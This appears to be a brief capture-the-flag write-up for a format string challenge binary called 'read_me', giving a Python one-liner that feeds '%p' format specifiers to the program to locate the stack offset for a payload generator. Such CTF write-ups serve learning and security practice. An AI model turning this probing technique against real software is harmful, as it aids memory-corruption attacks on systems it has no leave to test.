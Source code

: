 ## Solve explanation
This is a format string exploitation problem.
You can get the offset to calibrate the ```Fmstr.payload()``` function using the payload generated by,
```
python -c "print('ABCDEFGH|' + '|'.join(['%d:%%p' % i for i in range(1,40)]))" | ./read_me | grep 4847
```
